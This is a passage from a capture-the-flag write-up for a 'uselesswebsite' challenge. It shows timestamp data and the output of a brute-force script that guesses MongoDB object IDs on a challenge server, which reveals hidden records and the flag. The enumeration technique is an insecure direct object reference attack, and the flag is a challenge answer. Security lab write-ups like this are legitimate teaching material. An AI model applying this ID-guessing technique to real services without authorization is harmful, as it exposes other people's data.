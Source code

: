 Also, ‘dates.txt’ just contained the contents of ‘actions.txt’ followed by the corresponding UNIX timestamps:

{% highlight bash %}
Wed Jan 01 2020 20:12:20 GMT+0530 (India Standard Time) - added data
1577889740
Wed Jan 01 2020 20:12:51 GMT+0530 (India Standard Time) - added data
1577889771
Wed Jan 01 2020 20:13:18 GMT+0530 (India Standard Time) - added data
1577889798
Wed Jan 01 2020 20:16:39 GMT+0530 (India Standard Time) - added data
1577889999
Wed Jan 01 2020 20:17:40 GMT+0530 (India Standard Time) - added data
1577890060
Wed Jan 01 2020 20:18:16 GMT+0530 (India Standard Time) - added data
1577890096
Wed Jan 01 2020 20:34:06 GMT+0530 (India Standard Time) - added data
1577891046
Wed Jan 01 2020 20:34:16 GMT+0530 (India Standard Time) - added data
1577891056
Wed Jan 01 2020 20:34:43 GMT+0530 (India Standard Time) - added data
1577891083
Wed Jan 01 2020 20:35:10 GMT+0530 (India Standard Time) - added data
1577891110
Wed Jan 01 2020 20:35:22 GMT+0530 (India Standard Time) - added data
1577891122
Wed Jan 01 2020 20:35:40 GMT+0530 (India Standard Time) - added data
1577891140

{% endhighlight %}

Running the above script, I got the following output:

{% highlight bash %}
yakuhito@furry-catstation:~/ctf/foobar2020/uselesswebsite$ python bruteforce.py 
http://138.68.252.44:7081/objects/?id=5e0cb0cf1c9d440000b58aa5
{"_id":"5e0cb0cf1c9d440000b58aa5","data":"You are going to be very bored."}
http://138.68.252.44:7081/objects/?id=5e0cb1301c9d440000b58aa7
{"_id":"5e0cb1301c9d440000b58aa7","data":"Go on."}
http://138.68.252.44:7081/objects/?id=5e0cb10c1c9d440000b58aa6
{"_id":"5e0cb10c1c9d440000b58aa6","data":"This is going to take a long time for you."}
http://138.68.252.44:7081/objects/?id=5e0cb0061c9d440000b58aa4
{"_id":"5e0cb0061c9d440000b58aa4","data":"Ok, fine. Keep looking, your choice......................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................btw, actions are recorded in actions.txt"}
http://138.68.252.44:7081/objects/?id=5e0cb5261c9d440000b58aac
{"_id":"5e0cb5261c9d440000b58aac","data":"ok, fine."}
http://138.68.252.44:7081/objects/?id=5e0cb4f01c9d440000b58aaa
{"_id":"5e0cb4f01c9d440000b58aaa","data":"Do you seriously think there;s something useful here?"}
http://138.68.252.44:7081/objects/?id=5e0cb5441c9d440000b58aae
{"_id":"5e0cb5441c9d440000b58aae","data":"GLUG{0bj3ct_ids_ar3nt_s3cr3ts}"}
http://138.68.252.44:7081/objects/?id=5e0cb5321c9d440000b58aad
{"_id":"5e0cb5321c9d440000b58aad","data":"Next one has your flag."}
http://138.68.252.44:7081/objects/?id=5e0cb50b1c9d440000b58aab
{"_id":"5e0cb50b1c9d440000b58aab","data":"You are a very ardent person."}
http://138.68.252.44:7081/objects/?id=5e0cb4e61c9d440000b58aa9
{"_id":"5e0cb4e61c9d440000b58aa9","data":"Wait."}
yakuhito@furry-catstation:~/ctf/foobar2020/uselesswebsite$

{% endhighlight %}
